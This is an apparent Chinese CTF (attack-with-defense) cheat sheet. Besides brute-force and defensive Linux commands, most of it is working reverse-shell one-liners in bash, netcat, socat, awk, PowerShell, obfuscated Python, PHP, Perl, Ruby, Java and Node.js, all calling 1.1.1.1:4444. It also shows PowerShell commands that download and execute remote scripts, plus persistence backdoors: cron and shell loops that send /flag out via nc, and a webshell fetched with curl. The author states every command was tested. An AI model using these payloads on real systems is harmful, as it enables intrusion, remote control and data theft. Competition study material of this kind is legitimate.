 ```yaml
---
title: AWD CheatSheet
tags: 学习笔记
abbrlink: 7923
---
```




## 攻击

### crunch + hydra

```
crunch 10 10 -t 201800%%% -o password.txt
hydra -u root -p password.txt -l 192.168.9.0/24
```

### 防御

```bash
ps -u ctf  # 显示特定用户进程

last -n 5 awk '{print $1}' # 显示最近登录的5个账号

cat /etc/passwd |awk -F ':' '{print $1}' #显示所有账户

netstat -antulp | grep EST # 查看所有链接

lsof -i:3306 # 查看端口号

tar cvf www.tar /var/www/html # 打包源码

scp /tmp ctf@192.168.1.1:/var/www/html # 下载源码

mysqldump -u root -p ctf>ctf.sql # 备份数据库

mysql -u root -p ctf< ctf.sql #恢复数据库
或
source ctf.sql 

find . -name "*.php" -perm 4777 # 查找777权限的php文件

find ./ -mtime 0 -name "*.php" # 查找24小时内修改过的php文件

rm -rf `find /var/www/html -name .*.php` # 删除目录下 .*.php的文件
    
chattr -R +i /var/www/html # 锁定文件
    
tcpdump -s 0 -w ctf.pcap port 9999 # 高权限tcpdump抓包

alias curl="echo flag{1a5d51c54515649463521}" # 别名,需要写到.bashrc

unalias # 取消别名
```

### 杀进程

```
kill [pid]
killall [进程名]
pkill [进程名]
pkill -u [用户名] # 一次不行多几次,再猛的不死马都得死
```



## 权限维持

### 反弹 shell

#### 系统自带反弹

```bash
nc -e /bin/bash 1.1.1.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.1.1.1 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:4444  
awk 'BEGIN{s="/inet/tcp/0/1.1.1.1/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### 反弹 shell

#### powercat

```cmd
# 下载powercat
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# 反弹shell
powercat -c 1.1.1.1 -p 4444 -e cmd
```

#### nishang

```cmd
# 下载Invoke-PowerShellTcp
IEX (**New**-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
# 反弹shell
Invoke-PowerShellTcp -Reverse -IPAddress 1.1.1.1 -port 4444
```

#### powershell自定义函数

```cmd
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('1.1.1.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### python2

```cmd
#linux
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#windows
python -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

#### python3

*(python3的只发现在msfvenom上有meterpreter版本的,没有普通的oneliner reverse shell,因此自己写了一个)*

```cmd
python -c "(lambda __g, __y: [[[[(sock.connect(('1.1.1.1',4444)), (lambda __after: __y(lambda __this: lambda: [[[[(sock.send(m_stdout), (time.sleep(1), __this())[1])[1] for (__g['m_stdout'], __g['m_stderr']) in [(comRst.communicate())]][0] for __g['comRst'] in [(subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE))]][0] for __g['data'] in [(data.decode('utf-8'))]][0] for __g['data'] in [(sock.recv(1024))]][0] if True else __after())())(lambda: None))[1] for __g['sock'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['time'] in [(__import__('time', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```



#### php

```shell
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### perl

```shell
perl -e 'use Socket;$i="1.1.1.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### ruby

```shell
# linux
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
# windows
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

#### java

保存到jar文件,运行

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

#### nodejs

```javascript
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

以上命令均测试过有效,使用请自行修改ip和port.

### 后门

#### crontab

`echo '*/1 * * * * nc -w 1 1.1.1.1 4444 < /flag' > initflag.cron` 

`crontab initflag.cron`

#### shell

`echo  'while true\ndo\nnc -w 1 1.1.1.1 4444 < /flag >&1\nsleep 1m\ndone'> web_init.sh`

`sh web_init.sh`

#### webshell

`curl http://1.1.1.1/LongLiveAlkaid.txt -o .function.inc.php`

webshell pass:
get:url?pass=LongLiveAlkaid
post:a



## 参考链接

<https://klionsec.github.io/2016/09/27/revese-shell/>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md)